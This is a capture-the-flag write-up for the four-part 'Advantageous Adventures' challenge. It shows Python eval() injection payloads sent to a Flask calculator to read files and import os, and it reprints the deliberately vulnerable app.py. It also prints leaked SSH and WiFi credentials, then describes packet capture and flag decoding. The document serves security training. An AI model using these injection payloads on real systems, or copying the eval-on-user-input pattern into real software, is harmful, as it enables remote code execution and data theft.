








# Advantageous Adventures

## First Bloods :\)

Managed to do up to AA-2 before I had to sleep as I had work the next day.


Woke up to solve AA-3 and AA-4!


## AA 1

The page offers a bunch of math calculators. Testing some simple payloads revealed that the backend was using Python's `eval()` to generate the results.



Now, if we are going to read a flag, we are most probably going to be dealing with strings. If we are dealing with strings, one of the math operators is more useful than others: the `+` operator is the concatenation operator in Python.



Using the simple payload `val1=''&val2=open('flag.txt').read()`, we can make the server return the contents of `flag.txt`.



## AA 2

Did you get what you needed from Advantageous Adventures 1? You'll need a username and password from the first challenge to proceed. I heard that the Advantageous Adventures team was using what you received to communicate on a low level. Can you figure out how they're talking?

All info for this challenge must be derived from Advantageous Adventures 1.

### Solution

We can import the os module.

`val1=''&val2=str(__import__('os').listdir())`

The result: `['__pycache__', 'static', 'secret_script.py', 'secret_info', 'flag.txt', 'app.py', 'README.md', 'templates', 'Dockerfile']`



#### secret\_script.py

`val1=''&val2=open('secret_script.py').read()`

```python
from scapy.all import rdpcap, RadioTap, wrpcap

# run this on the file you get during the second challenge
# you don't need to understand all of it

packets = rdpcap('in.pcap')
fixed_packets = []

if len(packets) < 2153:
    # must have at least 2153 packets
    exit(1)

for packet in packets:
    # I know eval is unsafe but stackoverflow is down when script was created
    packet_bytes = eval(str(packet))
    fixed_packet_bytes = packet_bytes[14:]
    fixed_packets.append(RadioTap(fixed_packet_bytes))
wrpcap("out.pcap", fixed_packets)
```

#### secret\_info

```text
Make sure not to leak this info, needs to be super secret:
ip: chals1.umdctf.io
port: 3001
username: user
password: w0w_th3s3_@dv3ntur3s_r3@lly_@r3_outr@g30u5
wifi password: whose_adventure
```

#### app.py

```python
from flask import Flask, request, render_template
app = Flask(__name__)

@app.route('/')
def start():
    return render_template("home.html")

@app.route('/xor_calculator')
def xor_calculator():
    return render_template("calculator.html", calculate_type="xor")

@app.route('/add_calculator')
def add_calculator():
    return render_template("calculator.html", calculate_type="add")

@app.route('/mult_calculator')
def mult_calculator():
    return render_template("calculator.html", calculate_type="mult")

@app.route('/xor', methods=['POST'])
def xor():
    return calculate(0)

@app.route('/add', methods=['POST'])
def add():
    return calculate(1)

@app.route('/mult', methods=['POST'])
def mult():
    return calculate(2)


def calculate(operation_index):
    try:
        val1 = request.form['val1']
        val2 = request.form['val2']
        print(val1)
        print(val2)
        print(operation_index)
        if operation_index == 0:
            return str(eval(val1) ^ eval(val2))
        elif operation_index == 1:
            return str(eval(val1) + eval(val2))
        else:
            return str(eval(val1) * eval(val2))
    except Exception as e:
        print(e)
        return "An error occured"
```

We can SSH into the server using the credentials obtained above: `ssh user@chals1.umdctf.io -p 3001`

```text
user@b54d03d75f2b:/$ find / -name *pcap 2>/dev/null
/sys/bus/spi/drivers/ezx-pcap
/usr/bin/dumpcap
/usr/bin/text2pcap
```

We can use `dumpcap` to capture the network traffic.

Capture 2000+ packets on the WiFi interface: `dumpcap -i wlo2 -P`

After running the `secret_script.py`, transfer the `out.pcap` out using `scp`:

`scp -P 3001 user@chals1.umdctf.io:/home/ubuntu/out.pcap .`

Open in Wireshark, and we have our flag!



### AA 3

In Wireshark, we can decrypt the wireless traffic with the WiFi password found previously. This reveals another flag hidden in the data of the subsequent packets.



### AA 4

Shortly below the above flag, we can see lots of packets with repeated numbers, starting from `0000...`, `1111...`, `2222...`, and so on. The number _itself_ probably doesn't mean much - we're looking for a string. But the length \(i.e. number of repeated numbers\) varies for each packet. This could be one way to encode data.



In Wireshark: Export packets as JSON. Then we can run a script to extract the flag:

```python
import json

data = json.load(open('capture.json'))

result = ''
i = 1    # ith packet
j = 0    # number = 1

for packet in data:

    if i < 500:
        i += 1
        continue

    packet_data = packet['_source']['layers']['data']
    char = chr((int(packet_data['data.len']) + 4 ) // len(str(j)))

    if not result.endswith(char):
        print(result, j)
        result += char
        j += 1

    i += 1

    if i > 2310:
        break

print(result)
```



